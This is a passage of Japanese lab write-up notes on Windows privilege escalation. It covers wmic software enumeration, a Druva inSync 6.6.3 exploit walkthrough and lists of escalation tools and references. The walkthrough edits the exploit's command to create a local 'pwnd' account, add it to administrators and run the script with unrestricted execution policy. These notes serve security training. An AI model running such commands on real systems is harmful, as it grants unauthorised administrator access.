 - wmicを使用してインストールされたソフトウェアの情報を収集。  
  バージョン情報から、[Exploit-DB](https://www.exploit-db.com/)や[packet storm](https://packetstormsecurity.com/)、Googleなどで調べる。

```cmd
wmic product get name, version, vendor
```

### タスク7の質問と解答

1. 以下のとおり確認。

```cmd
# Druva inSync6.6.3がインストールされていることを確認
wmic product get name, version, vendor
～（省略）～
Druva inSync 6.6.3    Druva Technologies Pte. Ltd.             6.6.3.0
～（省略）～

# Exploitコードが C:\tools\Durva_inSync_exploit.txt にあるので $cmdの行を以下に編集
$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

# ファイルの拡張子を変更
rename Durva_inSync_exploit.txt Durva_inSync_exploit.ps1

# Exploitコードを実行
powershell -NoProfile -ExecutionPolicy Unrestricted .\Druva_inSync_exploit.ps1

# ユーザーが作成されていることを確認
net user pwnd

# pwndユーザーでコマンドプロンプトを起動
runas /user:pwnd cmd.exe
Enter the password for pwnd:   # SimplePass123を入力
```

## Task8 Tools of the Trade

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [PrivescCheck](https://github.com/itm4n/PrivescCheck)
- [WES-NG](https://github.com/bitsadmin/wesng)　※リモートから実行できる
- Metasploitの multi/recon/local_exploit_suggester


## Task9 Conclusion

### 特権昇格について追加のテクニック

- [PayloadsAllTheThings - Windows 権限昇格](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Priv2Admin - Windows 特権の悪用](https://github.com/gtworek/Priv2Admin)
- [RogueWinRM エクスプロイト](https://github.com/antonioCoco/RogueWinRM)
- [Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
- [Decoder's Blog](https://decoder.cloud/)
- [Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)
- [Hacktricks - Windows ローカル権限昇格](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
